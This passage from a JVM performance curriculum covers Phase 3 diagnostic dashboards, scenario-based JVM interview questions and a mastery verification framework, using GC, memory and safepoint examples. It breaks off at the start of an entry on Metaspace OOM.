    Eng->>Eng: root cause: allocation rate (app issue)
```

---

### 🚨 Failure Modes

**Failure 1 - Dashboard Overload (Too Many Panels):**

**Symptom:** Dashboard has 40 panels. Engineer cannot find the relevant one during incident. Scroll fatigue. Wrong conclusions from wrong panel.

**Root cause:** Dashboard grew organically without hierarchy. No clear reading path.

**Diagnostic:** Time an engineer diagnosing a simulated incident using the dashboard. If > 3 minutes to find root cause: dashboard is too complex.

**Fix:** Limit to 3 rows (18 panels max). Reading path: top-to-bottom = overview-to-detail. Remove rarely-used panels to separate "deep dive" dashboard.

**Failure 2 - Metric Resolution Too Low:**

**Symptom:** Dashboard shows 5-minute averages. Short GC storms (30 seconds of intense GC) are invisible in the smoothed data.

**Root cause:** Prometheus scrape interval 60s, recording rules over 5m window. Short incidents smoothed away.

**Diagnostic:**

```bash
# Check scrape interval:
# Prometheus config: scrape_interval: 60s
# 30s incident is 0.5 data points (invisible)
```

**Fix:** Reduce scrape interval to 15s for JVM targets. Use `max_over_time` instead of `rate` for spike detection. Ensure GC pause metric captures individual pauses (not averaged).

---

### 🔬 Production Reality

The transition from Phase 2 to Phase 3 dashboards typically reduces mean-time-to-diagnose by 5-10x for GC-related incidents. The key differentiator: decomposed GC pause. When an engineer can see that total GC pause = 2.1s, but it is 2.0s of TTSP + 0.1s of actual GC, they immediately know it is a safepoint issue (not a GC tuning issue). Without decomposition, they would spend 2 hours tuning GC parameters that have no effect on the TTSP problem.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | Phase 1 (basic) | Phase 2 (alerting) | Phase 3 (diagnosis)   |
| -------------- | --------------- | ------------------ | --------------------- |
| Panels         | 3-5             | 8-12               | 15-20                 |
| Diagnosis time | Need SSH + logs | Need SSH + logs    | Dashboard-only (2min) |
| Setup effort   | 1 hour          | 4 hours            | 1-2 days              |
| Metric count   | 5-10            | 15-25              | 40-60                 |
| Skill required | None            | GC awareness       | GC cause knowledge    |

---

### ⚡ Decision Snap

**BUILD PHASE 3 WHEN:**

- GC incidents happen more than monthly.
- MTTD for GC issues exceeds 10 minutes.
- Team lacks deep GC expertise (dashboard guides diagnosis).

**PHASE 3 MINIMUM VIABLE:**

- GC pause by type (young/mixed/full) [1 panel].
- Allocation rate + promotion rate [1 panel].
- TTSP + safepoint count [1 panel].
- This alone cuts diagnosis time significantly.

**SKIP PHASE 3 WHEN:**

- GC is not a problem (ZGC with <1ms pauses, no incidents).
- Very small fleet (1-2 instances, SSH is fast enough).

---

### ⚠️ Top Traps

| #   | Misconception                        | Reality                                                                                                           |
| --- | ------------------------------------ | ----------------------------------------------------------------------------------------------------------------- |
| 1   | "Heap % used = problem severity"     | Heap at 90% is normal (GC triggers before OOM). Allocation RATE matters more than current utilization.            |
| 2   | "GC pause panel is enough"           | Without decomposition (young/mixed/full/TTSP), you cannot identify root cause. Total pause hides the detail.      |
| 3   | "More metrics = better dashboard"    | Focused panels with clear reading path beat comprehensive but overwhelming dashboards. 18 panels max.             |
| 4   | "Dashboard replaces GC log analysis" | For 80% of incidents, yes. For complex cases (fragmentation, promotion failure), GC logs still needed for detail. |
| 5   | "Same dashboard for all audiences"   | Operators need overview (Phase 1-2). Engineers need diagnosis (Phase 3). Separate dashboards or drill-down links. |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-046 GC Logging and Analysis - understand what metrics to expose on dashboard
- JVM-095 JVM Fleet Observability - Key Metrics - fleet context for Phase 3 panels

**THIS:** JVM-098 Build a JVM Dashboard - Phase 3 (Diagnosis)

**Next steps:**

- JVM-087 JVM Production Incident Simulation - validate dashboard using simulated incidents
- JVM-088 JFR Custom Events and Continuous Profiling - JFR streaming feeds Phase 3 panels

---

**The Surprising Truth:**

The most underrated Phase 3 metric is "live data size" (old gen occupancy immediately AFTER a full GC or concurrent mark). This represents the TRUE working set of your application - the minimum memory it needs. If live data size is growing over days: you have a slow memory leak. If live data size is stable at 50% of max heap: your heap is correctly sized (50% headroom for GC). If live data size is 85% of max heap: you need more heap regardless of what GC tuning you apply. This single metric answers "is my heap big enough?" definitively.

**Further Reading:**

- Micrometer documentation: "JVM Metrics" binder reference
- Grafana Labs blog: "JVM Monitoring Best Practices"
- Jon Schneider, "Micrometer in Action" (production metrics patterns)

**Revision Card:**

1. Phase 3 diagnosis path: GC pause by type -> allocation/promotion rate -> TTSP. Three checks identify most root causes.
2. Key metric: live data size (old gen after GC). Growing = leak. Stable at 50% heap = healthy. At 85% = need more heap.
3. Dashboard reading path: top-to-bottom = overview-to-detail. Max 18 panels. Shared time range. Fleet comparison.

**BAD:**

```text
# Phase 1 dashboard during incident:
# Panel: Heap Used = 7.2GB / 8GB
# Panel: GC Count = 847 (last hour)
# Panel: Threads = 312
# Engineer: "Heap is high. GC is frequent. Why?"
# SSH into instance. Analyze GC logs manually.
# 45 minutes to root cause.
```

**GOOD:**

```text
# Phase 3 dashboard during same incident:
# Panel: GC Pause = 2.1s (type: Full GC!)
# Panel: Allocation Rate = 800 MB/s (10x normal!)
# Panel: Promotion Rate = 200 MB/s (fills old gen)
# Panel: TTSP = 12ms (normal, not the cause)
# Engineer: "Allocation spike caused Full GC."
#   -> Check: what changed? (deployment 10min ago)
#   -> Root cause in 2 minutes from dashboard alone.
```

---

---

# JVM-099 JVM Deep-Dive Interview Questions

**TL;DR** - JVM deep-dive interviews test reasoning about production behavior under pressure - not trivia but connected understanding of GC, JIT, memory, and threading.

---

### 🔥 Problem Statement

An interviewer asks "How does G1 work?" The candidate recites: "region-based, pause time goal, mixed GC." The interviewer learns nothing about the candidate's ability to DIAGNOSE production issues with G1. Better questions test connected reasoning: "Your G1 service has frequent Full GCs despite 40% free heap - what are the possible causes and how would you diagnose each?" This tests real competence: connecting symptoms to causes to diagnostic tools to fixes.

---

### 📜 Historical Context

JVM interview questions evolved from trivia ("What are the GC generations?") to scenario-based ("Diagnose this incident"). Modern staff+ interviews at JVM-heavy organizations (financial services, ad tech, streaming) present realistic scenarios requiring candidates to demonstrate: (1) recognition of symptoms, (2) differential diagnosis (multiple possible causes), (3) specific diagnostic steps (not generic "check logs"), (4) targeted fixes with trade-off awareness.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Connected reasoning > isolated facts:** Knowing that "G1 has regions" is useless without knowing HOW region size affects humongous allocation, WHICH triggers fragmentation, THAT causes Full GC.
2. **Diagnosis skill requires tool knowledge:** Candidates must name SPECIFIC tools and commands - not "check monitoring" but "jcmd PID GC.heap_info shows per-generation occupancy."
3. **Trade-off awareness signals seniority:** Junior answers give one solution. Senior answers give 2-3 options with trade-offs. Staff answers include "when NOT to use this."

**DERIVED DESIGN:**

These invariants mean: (1) good interview questions present SYMPTOMS and ask for CAUSES (not the reverse), (2) follow-up questions test depth ("what if that is not the cause?"), (3) evaluation criteria focus on reasoning process, not memorized answers.

**THE TRADE-OFF:**

**Gain:** Identifies candidates who can handle real production incidents. Filters for connected understanding vs surface knowledge.

**Cost:** Requires interviewers with deep JVM knowledge. Hard to evaluate fairly (multiple valid diagnostic paths). Takes longer than trivia questions.

---

### 🧠 Mental Model

> JVM interviews should be like medical differential diagnosis. The patient (production system) has symptoms. The doctor (candidate) must: (1) ask clarifying questions about symptoms, (2) propose possible diagnoses ranked by likelihood, (3) name specific tests (tools) to confirm/eliminate each diagnosis, (4) recommend treatment (fix) with side effects (trade-offs). Trivia-style questions are like asking a doctor to recite anatomy textbook chapters - tests memory, not diagnostic ability.

- "Patient symptoms" -> production metrics/behavior described
- "Differential diagnosis" -> multiple possible root causes
- "Specific tests" -> jcmd, jstat, JFR, heap dump commands
- "Treatment + side effects" -> fix + trade-off awareness
- "Anatomy recitation" -> trivia questions (low signal)

**Where this analogy breaks down:** in medicine, wrong diagnosis can be fatal. In interviews, the goal is to observe the REASONING PROCESS. A candidate who proposes a wrong diagnosis but shows excellent diagnostic reasoning is stronger than one who knows the "right answer" but cannot explain why.

---

### 🧩 Components

The five question categories for JVM deep-dive:

- **Category 1 - GC Diagnosis:** "Service shows X GC behavior, diagnose." Tests: GC mechanism understanding, tool knowledge, fix awareness.
- **Category 2 - Memory Analysis:** "Heap dump shows Y, explain." Tests: object lifecycle, reference types, memory leak patterns.
- **Category 3 - Performance Reasoning:** "First requests are slow, steady state is fast, why?" Tests: JIT understanding, warmup, deoptimization.
- **Category 4 - Concurrency & Threading:** "Thread dump shows Z, what is happening?" Tests: lock analysis, deadlock detection, thread state understanding.
- **Category 5 - System Integration:** "Container gets OOM killed but JVM heap is fine." Tests: native memory, container limits, off-heap awareness.

```text
Interview evaluation rubric:

Level 1 (Junior) - can answer:
  What are the GC generations?
  What does -Xmx do?
  What is a thread dump?

Level 2 (Mid) - can answer:
  Why does G1 trigger Full GC?
  How would you diagnose a memory leak?
  What is JIT warmup?

Level 3 (Senior) - can answer:
  Given these symptoms, what are 3 possible causes?
  Which tool confirms each cause? (specific commands)
  What are the trade-offs of each fix?

Level 4 (Staff+) - can answer:
  How does this interact at fleet scale?
  When would you NOT fix this (acceptable trade-off)?
  How would you prevent this class of issue structurally?
```

```mermaid
flowchart TD
    A[Interview Question: Scenario] --> B[Candidate Response]
    B --> C{Identifies symptoms correctly?}
    C -->|Yes| D{Proposes multiple causes?}
    C -->|No| E[Weak: surface understanding]
    D -->|Yes| F{Names specific tools?}
    D -->|No| G[Adequate: single-path thinking]
    F -->|Yes| H{Discusses trade-offs?}
    F -->|No| I[Good: knows causes, not tools]
    H -->|Yes| J[Excellent: production-ready]
    H -->|No| K[Strong: needs trade-off growth]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** JVM interview questions that test real diagnostic ability rather than memorized facts. Focus on scenario-based questions where candidates must connect symptoms to causes to tools to fixes.

**Level 2 - How to use it:** Present a production scenario. Ask: "What could cause this? How would you diagnose? What would you fix?" Follow up with: "What if that was not the cause?" to test depth. Evaluate reasoning process, not specific answer.

**Level 3 - How it works:** Strong questions have multiple valid diagnostic paths. Example: "G1 Full GC with 40% free heap" could be: humongous allocation failure, IHOP too high, fragmentation, metaspace exhaustion (triggers Full GC). Each path has specific diagnostics. The candidate's ability to enumerate and rank these paths reveals depth.

**Level 4 - Production mastery:** The strongest signal in JVM interviews is when a candidate ASKS CLARIFYING QUESTIONS before answering. "What is the heap size?", "Which JDK version?", "How long has it been running?" shows they know that the SAME symptom has different causes in different contexts. A candidate who immediately jumps to one answer without asking context is likely pattern-matching from blogs, not reasoning from first principles.

---

### ⚙️ How It Works

**The Question Bank (5 scenarios with diagnostic paths):**

**Scenario 1: "GC pause spikes every 30 minutes"**

```text
Expected reasoning path:
  Q: "How long are the spikes?"
  If 1-5s: likely Full GC or long mixed GC
  If 10-30s: likely TTSP (counted loop/JNI)

  Causes to enumerate:
  1. Concurrent mark not completing -> Full GC
     Tool: -Xlog:gc*=info (look for "Full GC")
  2. Humongous allocation failure
     Tool: gc log "humongous" + region size
  3. TTSP from counted loop
     Tool: -Xlog:safepoint=info (check TTSP)
  4. Metaspace expansion (triggers Full GC)
     Tool: jcmd VM.native_memory + metaspace

  Fix per cause:
  1. Lower IHOP or increase heap
  2. Increase G1HeapRegionSize
  3. UseCountedLoopSafepoints
  4. Set MaxMetaspaceSize, fix class leak
```

**Scenario 2: "RSS grows but heap is stable"**

```text
Expected reasoning path:
  Q: "How fast is RSS growing?"
  Q: "Is NMT enabled?"

  Causes to enumerate:
  1. Direct ByteBuffer leak
     Tool: heap dump (find DirectByteBuffer refs)
  2. JNI native memory leak
     Tool: jemalloc profiling
  3. Thread leak (each thread = 1MB stack)
     Tool: jcmd Thread.print | wc -l
  4. Metaspace growth (class loading leak)
     Tool: jcmd VM.native_memory summary.diff

  Senior answer includes:
  - "Container OOM kill despite Xmx headroom"
  - "NMT only tracks JVM-internal, not JNI"
  - "System.gc() helps Direct BB reclaim"
```

```mermaid
sequenceDiagram
    participant I as Interviewer
    participant C as Candidate
    I->>C: "P99 latency spikes to 5s every hour"
    C->>I: "What is heap size? JDK version?"
    I->>C: "8GB G1, JDK 17"
    C->>I: "Could be: Full GC, TTSP, or deopt storm"
    C->>I: "First check: safepoint log for TTSP"
    C->>I: "If TTSP normal: check GC log for Full GC"
    C->>I: "If no Full GC: check deopt count in JFR"
    I->>C: "TTSP is 4.5s. GC only 50ms."
    C->>I: "Counted loop without safepoint poll."
    C->>I: "Fix: -XX:+UseCountedLoopSafepoints"
    C->>I: "Trade-off: 1-5% loop perf overhead"
```

---

### 🚨 Failure Modes

**Failure 1 - Trivia Interview (Low Signal):**

**Symptom:** Interview asks: "How many GC generations are there?" "What is the default MaxPermSize?" Candidate with 2 weeks of study passes. Candidate with 5 years production experience provides same answers.

**Root cause:** Questions test memorized facts, not diagnostic reasoning. No scenario context. No follow-up probing.

**Diagnostic:** After the interview, ask: "Could I distinguish a junior who memorized answers from a senior with real production experience?" If not: questions are trivia.

**Fix:** Replace every fact question with a scenario. Instead of "What is IHOP?" ask "Your G1 keeps triggering Full GC. You check IHOP and find it at 45%. What does this tell you and what would you change?"

**Failure 2 - Single-Path Evaluation:**

**Symptom:** Interviewer has ONE expected answer. Candidate gives a different valid diagnostic path. Interviewer marks wrong.

**Root cause:** Interviewer does not understand that JVM diagnosis has multiple valid approaches. Evaluating against single expected answer.

**Diagnostic:** Show the rubric to 3 senior engineers. Ask if the candidate's alternative path is valid.

**Fix:** Build rubric around QUALITY SIGNALS (asks context, enumerates causes, names tools, discusses trade-offs) not specific answers. Accept multiple valid paths.

---

### 🔬 Production Reality

In hiring for JVM-heavy roles (performance engineering, SRE for Java services, distributed systems), the single highest-signal question is: "Tell me about a production JVM incident you diagnosed." Strong candidates provide: specific symptoms, their diagnostic sequence, wrong hypotheses they eliminated, the actual root cause, and what they changed to prevent recurrence. Weak candidates either have no real incidents (theoretical knowledge only) or describe "fixed by restart" without diagnosis.

---

### ⚖️ Trade-offs & Alternatives

| Aspect           | Trivia questions | Scenario-based        | Live debugging (pair) |
| ---------------- | ---------------- | --------------------- | --------------------- |
| Prep time (int.) | 10 min           | 1 hour                | 2 hours               |
| Signal quality   | Low              | High                  | Highest               |
| Candidate stress | Low              | Moderate              | High                  |
| Fairness         | High (objective) | Moderate (subjective) | Lower (pressure)      |
| Time needed      | 15 min           | 30-45 min             | 60 min                |

---

### ⚡ Decision Snap

**USE SCENARIO QUESTIONS WHEN:**

- Hiring for roles that handle JVM production issues.
- Want to distinguish theory from practice.
- Have interviewers with deep JVM production experience.

**USE TRIVIA AS SCREENING ONLY:**

- Phone screen: "What happens during a Full GC?" (eliminates no-JVM-knowledge candidates).
- Never as the primary evaluation.

**USE LIVE DEBUGGING WHEN:**

- Hiring senior/staff performance engineers.
- Can provide a realistic environment (pre-built scenario).
- Have 60+ minutes of interview time.

---

### ⚠️ Top Traps

| #   | Misconception                       | Reality                                                                                                                            |
| --- | ----------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------- |
| 1   | "Correct answer = competent"        | Process matters more. A wrong initial hypothesis with good reasoning outranks a memorized correct answer.                          |
| 2   | "More questions = better signal"    | 2-3 deep scenarios with follow-ups yield more signal than 20 shallow questions. Depth > breadth.                                   |
| 3   | "Must know exact JVM flags"         | Knowing "-XX:+UseCountedLoopSafepoints" is a bonus. Knowing "there is a flag that adds polls to counted loops" is sufficient.      |
| 4   | "Only GC knowledge matters"         | JVM interviews should cover: GC + Memory + JIT + Threading + Containers. Real incidents span multiple areas.                       |
| 5   | "Junior cannot pass JVM interviews" | Adjust question depth to level. Junior: "What could cause OOM?" Senior: "Diagnose this specific OOM scenario with these symptoms." |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-060 Memory Leak Diagnosis Workflow - diagnostic methodology for interview scenarios
- JVM-087 JVM Production Incident Simulation - practice scenarios that appear in interviews

**THIS:** JVM-099 JVM Deep-Dive Interview Questions

**Next steps:**

- JVM-100 JVM Mastery Verification - self-assessment against full JVM knowledge map
- JVM-097 Teaching JIT - The 5 Questions Juniors Ask - common junior-level questions to expect

---

**The Surprising Truth:**

The strongest JVM interview signal is not technical knowledge - it is the candidate saying "I do not know, but here is how I would find out." Production JVM work constantly surfaces behaviors you have never seen before. The ability to reason from first principles to a diagnostic plan for an UNKNOWN problem is more valuable than encyclopedic knowledge of known problems. Ask: "You see JVM behavior you have never encountered. Walk me through your first 10 minutes." The candidate who says "check GC logs, check thread dump, check NMT, check JFR" with rationale for each is stronger than one who guesses a specific root cause.

**Further Reading:**

- Aleksey Shipilev, "The Art of JVM Profiling" - mental models for JVM reasoning
- Kirk Pepperdine, "Java Performance Workshops" - scenario-based learning approach
- Charlie Hunt, "Java Performance: The Definitive Guide" - diagnostic methodology chapters

**Revision Card:**

1. Good JVM questions present SYMPTOMS, ask for CAUSES + TOOLS + TRADE-OFFS. Not trivia. Scenario-based.
2. Evaluate PROCESS not answers: asks clarifying questions, enumerates multiple causes, names specific tools, discusses trade-offs.
3. Strongest signal: "I do not know, but I would check X because Y." Reasoning from principles > memorized answers.

**BAD:**

```text
# Trivia interview (low signal):
Q: "How many GC generations?"  A: "Young, Old"
Q: "Default Xmx?"  A: "1/4 of RAM"
Q: "Name 3 GC algorithms"  A: "Serial, G1, ZGC"
# Candidate studied 2 hours. Passed.
# Cannot diagnose real incidents.
# Same score as 10-year veteran.
```

**GOOD:**

```text
# Scenario interview (high signal):
Q: "Service OOM killed. Heap 4GB in 6GB container.
    Heap dump shows 2.8GB used. Why OOM?"
A: "Native memory. RSS > container limit."
   "Causes: Direct BB leak, thread stacks, metaspace"
   "Diagnose: NMT diff, check thread count,
    check DirectByteBuffer instances in heap dump"
   "Fix: bound Direct BB, fix leak, account for native
    in container sizing: Xmx + native <= container"
# Demonstrates connected reasoning under pressure.
```

---

---

# JVM-100 JVM Mastery Verification

**TL;DR** - JVM mastery is verified by ability to diagnose novel production issues, predict behavior under described conditions, and make informed JVM configuration decisions at scale.

---

### 🔥 Problem Statement

An engineer has studied JVM internals for months: read blog posts, watched conference talks, completed this learning ladder. They believe they understand the JVM deeply. But can they actually APPLY this knowledge under production pressure? Without a structured verification framework, knowledge remains theoretical. Mastery verification provides concrete, testable competencies that distinguish "studied it" from "can do it under pressure."

---

### 📜 Historical Context

JVM expertise historically required years of production experience because there was no structured curriculum. Knowledge was passed through tribal wisdom, war stories, and painful incidents. The emergence of structured learning paths (this ladder, JVM performance books, certification programs) provides knowledge but not verification. Verification requires: (1) scenario-based testing, (2) hands-on diagnosis of intentionally broken systems, (3) design review capability (reviewing others' JVM decisions).

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Mastery = reliable execution under novelty:** A master can diagnose JVM issues they have NEVER seen before by reasoning from first principles. This is the defining difference from "has memorized patterns."
2. **Mastery is multi-dimensional:** GC expertise without threading knowledge, or memory expertise without JIT understanding, is incomplete. Real incidents cross boundaries.
3. **Mastery degrades without practice:** JVM internals evolve (new GC algorithms, new features, changed defaults). Mastery requires continuous engagement with production systems.

**DERIVED DESIGN:**

These invariants mean: (1) verification must test NOVEL scenarios (not the same scenarios studied), (2) verification must span all JVM subsystems in connected scenarios, (3) re-verification periodically (annual) ensures currency with JVM evolution.

**THE TRADE-OFF:**

**Gain:** Confidence in own capabilities. Identification of knowledge gaps. Career progression evidence. Team skill assessment.

**Cost:** Time investment for verification exercises. Requires access to practice environments. Ego risk (discovering gaps).

---

### 🧠 Mental Model

> JVM mastery verification is like a pilot's checkride. Knowing how a plane works (study) is necessary but not sufficient. The checkride tests: can you fly safely under abnormal conditions you have not rehearsed? Can you make correct decisions under time pressure with incomplete information? Can you explain your decisions to the examiner? A pilot who has studied everything but never handled a simulated engine failure is not verified.

- "Checkride" -> verification exercise (scenario-based test)
- "Fly under abnormal conditions" -> diagnose novel JVM issues
- "Correct decisions under pressure" -> time-bounded diagnosis
- "Explain decisions" -> articulate reasoning (not just outcome)
- "Simulated engine failure" -> intentionally broken JVM scenario

**Where this analogy breaks down:** pilot verification is pass/fail with specific criteria. JVM mastery is a spectrum - you can be masterful in GC but intermediate in JIT. Verification should identify your specific level per subsystem.

---

### 🧩 Components

The 6 verification dimensions:

- **Dimension 1 - GC Mastery:** Can diagnose Full GC, TTSP, allocation rate issues, fragmentation. Can select and tune GC for specific workload. Can predict GC behavior from heap configuration.
- **Dimension 2 - Memory Mastery:** Can diagnose heap leaks, native leaks, metaspace exhaustion. Understands object lifecycle, reference types, and off-heap allocation.
- **Dimension 3 - JIT Mastery:** Can explain warmup, predict deoptimization triggers, use compilation logs. Understands when AOT is preferable.
- **Dimension 4 - Threading Mastery:** Can analyze thread dumps, detect deadlocks, diagnose contention. Understands virtual thread implications.
- **Dimension 5 - Production Mastery:** Can size containers correctly (heap + native + OS), configure logging, build monitoring. Understands fleet-level concerns.
- **Dimension 6 - Architecture Mastery:** Can make JVM-informed architecture decisions: GC algorithm selection, native vs JIT, heap sizing strategy, thread model selection.

```text
Mastery verification matrix:

Dimension       | L1 (Aware) | L2 (Can do) | L3 (Master)
----------------|------------|-------------|------------
GC              | Name algos | Tune G1     | Novel diag.
Memory          | Heap dump  | Leak find   | Native leak
JIT             | Know warmup| Read complog| Predict deopt
Threading       | Read dumps | Find deadlk | Scale design
Production      | Set Xmx    | Container sz| Fleet observe
Architecture    | Pick G1    | Native vs JIT| Trade-off doc

Verification method per level:
  L1: Written quiz (definitions, concepts)
  L2: Lab exercise (guided scenario)
  L3: Unguided novel scenario + teach-back
```

```mermaid
flowchart TD
    A[JVM Mastery Verification] --> B[Dimension 1: GC]
    A --> C[Dimension 2: Memory]
    A --> D[Dimension 3: JIT]
    A --> E[Dimension 4: Threading]
    A --> F[Dimension 5: Production]
    A --> G[Dimension 6: Architecture]
    B --> H{Can diagnose novel GC issue?}
    H -->|Yes| I[GC Mastery: Verified]
    H -->|No| J[GC Mastery: Gap identified]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** A framework for testing whether your JVM knowledge is usable under pressure. Moves beyond "I have read about it" to "I can do it when something breaks at 3am."

**Level 2 - How to use it:** For each dimension, attempt the verification exercise described. Time yourself. If you cannot complete the exercise within the time limit without external references, that dimension needs more practice.

**Level 3 - How it works:** Each verification exercise presents a NOVEL scenario (not one you have studied). You must reason from first principles to diagnose. Success means: correct root cause identified, specific diagnostic commands named, fix proposed with trade-off awareness, time < target.

**Level 4 - Production mastery:** Ultimate verification: you are handed a production JVM instance exhibiting a problem you have never seen before. Can you diagnose it in < 15 minutes using available tools? Can you explain WHY it is happening (not just WHAT)? Can you propose a fix AND predict its side effects? This is the staff/principal engineer bar.

---

### ⚙️ How It Works

**Verification Exercise Template:**

```text
EXERCISE: [Dimension + Scenario Name]
SETUP: [Environment description]
SYMPTOMS: [What you observe]
TIME LIMIT: [Minutes]
SUCCESS CRITERIA:
  [ ] Root cause identified correctly
  [ ] Specific diagnostic tool/command named
  [ ] Fix proposed with trade-off articulated
  [ ] Completed within time limit
  [ ] Could explain reasoning to a peer
```

**Example Exercises:**

```text
Exercise 1 (GC Mastery):
  Symptoms: G1, 32GB heap, JDK 17.
    p99 latency = 800ms (target: 200ms).
    GC log shows: mixed GC every 3s, 150ms each.
    No Full GC. TTSP < 5ms.
  Question: Why is p99 so high if GC is only 150ms?
  Time: 10 minutes.
  Answer path: Mixed GC frequency (every 3s) means
    multiple GCs per request at p99. The issue is GC
    FREQUENCY not duration. Fix: reduce allocation
    rate OR increase young gen (accept longer pauses
    but less frequent).

Exercise 2 (Memory Mastery):
  Symptoms: 4GB Xmx, container 6GB. After 48h:
    RSS = 5.8GB. Heap = 3.1GB. NMT shows +400MB
    in "Other" category over 48h.
  Question: What is leaking and how to find it?
  Time: 15 minutes.
  Answer path: "Other" in NMT = Direct ByteBuffers.
    Find retained DirectByteBuffer refs in heap dump.
    Or: if NMT total does not account for all RSS
    growth, it is JNI malloc (need jemalloc profiling).
```

```mermaid
sequenceDiagram
    participant V as Verifier
    participant E as Engineer
    participant S as System (broken)
    V->>E: here are the symptoms (novel scenario)
    E->>E: reason from first principles
    E->>S: apply diagnostic (jcmd, logs, etc.)
    S->>E: diagnostic output
    E->>V: root cause + fix + trade-off
    V->>V: evaluate: correct? specific? reasoned?
```

---

### 🚨 Failure Modes

**Failure 1 - Knowledge Without Application:**

**Symptom:** Engineer can explain GC algorithms perfectly in a meeting but freezes during actual incident. Cannot translate theory to diagnostic commands under time pressure.

**Root cause:** Studied theory without hands-on practice. Knowledge is declarative (can state facts) but not procedural (cannot execute sequence).

**Diagnostic:** Give a lab exercise with a broken JVM. Observe: do they know WHICH tool to use first? Can they interpret the output? Do they have a next step?

**Fix:** Incident simulation practice (JVM-087). Monthly hands-on exercises with real diagnostic tools. Theory + practice together.

**Failure 2 - Pattern Matching Without Reasoning:**

**Symptom:** Engineer diagnoses known patterns correctly (they have seen this before) but fails on novel scenarios. Cannot reason about JVM behavior they have not explicitly studied.

**Root cause:** Learned by memorizing incident patterns, not by understanding underlying mechanisms. Cannot transfer knowledge to new contexts.

**Diagnostic:** Present a scenario that COMBINES two failure modes they have studied separately (e.g., NUMA + fragmentation, or virtual threads + TTSP). Can they reason about the combined effect?

**Fix:** First-principles practice: for each mechanism, understand WHY it behaves that way, not just WHAT it does. Then novel combinations become reasonably predictable.

---

### 🔬 Production Reality

Organizations that implement structured JVM mastery verification (even informally: quarterly "JVM challenge" sessions where engineers diagnose intentionally broken systems) report measurable improvement in incident response. The key finding: engineers who can articulate "I am strong in GC and memory but weak in JIT and threading" make better decisions about when to escalate and who to involve. Self-awareness of gaps is itself a mastery signal.

---

### ⚖️ Trade-offs & Alternatives

| Aspect           | Self-assessment  | Peer verification     | Production incidents  |
| ---------------- | ---------------- | --------------------- | --------------------- |
| Objectivity      | Low (bias)       | Medium                | Highest (real)        |
| Safety           | High (no risk)   | High (lab)            | Low (real pressure)   |
| Feedback quality | Low              | High                  | Delayed (post-mortem) |
| Accessibility    | Always available | Need peers + env      | Cannot be scheduled   |
| Growth signal    | Unclear          | Clear (peer feedback) | Clear (outcome)       |

---

### ⚡ Decision Snap

**SELF-VERIFY REGULARLY WHEN:**

- Learning independently (this ladder).
- Want to identify gaps before they matter.
- No access to peer verification or lab environments.

**PEER-VERIFY QUARTERLY WHEN:**

- Team practices incident simulation (JVM-087).
- Hiring or promoting for JVM-heavy roles.
- Want calibrated, objective assessment.

**PRODUCTION-VERIFY CONTINUOUSLY WHEN:**

- Already handling real JVM incidents.
- Track your own MTTD and accuracy over time.
- Review each incident: "What did I not know?"

---

### ⚠️ Top Traps

| #   | Misconception                                | Reality                                                                                                         |
| --- | -------------------------------------------- | --------------------------------------------------------------------------------------------------------------- |
| 1   | "Reading this ladder = JVM mastery"          | Reading provides knowledge. Mastery requires application under pressure with novel scenarios. Practice > study. |
| 2   | "I will learn when an incident happens"      | Learning during real incidents is costly (downtime while learning). Practice beforehand with simulations.       |
| 3   | "Mastery is permanent"                       | JVM evolves (ZGC, virtual threads, new defaults). Re-verify annually. Knowledge from JDK 8 may be obsolete.     |
| 4   | "One dimension is enough"                    | Real incidents cross boundaries (GC + native memory + containers). Multi-dimensional mastery required.          |
| 5   | "Perfect knowledge needed before production" | 80% knowledge + reasoning ability > 100% knowledge without diagnostic skill. Start handling incidents early.    |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-099 JVM Deep-Dive Interview Questions - understand what mastery looks like from evaluator perspective
- JVM-087 JVM Production Incident Simulation - practice environment for verification

**THIS:** JVM-100 JVM Mastery Verification

**Next steps:**

- JVM-101 Diagnosing Metaspace OOM in Production - apply mastery to specific complex scenario
- JVM-102 (Architecture and Strategy) - move to architectural decision-making level

---

**The Surprising Truth:**

The fastest path to JVM mastery is not studying more - it is TEACHING. When you explain "why does G1 trigger Full GC despite free heap?" to a colleague, you discover gaps in your own understanding. Every "uh, actually I am not sure about that part" reveals a gap that passive study would not have surfaced. The verification method with highest signal-to-noise ratio is: can you teach this concept clearly to someone who asks follow-up questions? If you can handle three "but why?" follow-ups, you have mastery of that concept.

**Further Reading:**

- Andy Hunt, "Pragmatic Thinking and Learning" - skill acquisition models (Dreyfus)
- K. Anders Ericsson, "Peak: Secrets from the New Science of Expertise" - deliberate practice
- The Feynman Technique - learning by teaching as verification method

**Revision Card:**

1. Mastery = diagnose NOVEL issues from first principles under time pressure. Not memorized patterns, not recitation.
2. Six dimensions: GC + Memory + JIT + Threading + Production + Architecture. Gaps in any one are exploitable by real incidents.
3. Fastest verification: can you TEACH it and handle follow-up questions? Three "but why?" answers deep = mastery.

**BAD:**

```text
# "Mastery" by checklist:
[x] Read GC tuning guide
[x] Watched conference talk on G1
[x] Memorized 20 JVM flags
[x] Can define IHOP, TLAB, TTSP
# Result: fails when presented with novel scenario.
# Cannot connect concepts. Cannot diagnose.
# Knowledge is declarative, not procedural.
```

**GOOD:**

```text
# Mastery verification:
[x] Diagnosed 5+ novel GC scenarios in lab (timed)
[x] Taught JIT warmup to 3 engineers (handled Qs)
[x] Built Phase 3 dashboard from scratch
[x] Reduced real MTTD from 45min to 5min
[x] Identified own gaps: "weak on native memory"
[x] Targeted practice: jemalloc + NMT exercises
# Result: confident under pressure. Known gaps.
# Can reason about combinations never seen before.
```

---

---

# JVM-101 Diagnosing Metaspace OOM in Production

**TL;DR** - Metaspace OOM occurs when classloader leaks from hot-redeployment or unbounded dynamic proxy generation exhaust native class metadata memory - diagnosed via class histogram.

---

### 🔥 Problem Statement

A production Spring Boot service running for 2 weeks crashes with `java.lang.OutOfMemoryError: Metaspace`. Heap is fine (3GB of 8GB used). The service was not redeployed - it ran continuously. Metaspace grew from 200MB at startup to 512MB (the MaxMetaspaceSize limit). Something is continuously loading new classes without unloading old ones. This is a classloader leak - one of the most insidious JVM issues because it is invisible to heap-focused monitoring and standard GC metrics.

---

### 📜 Historical Context

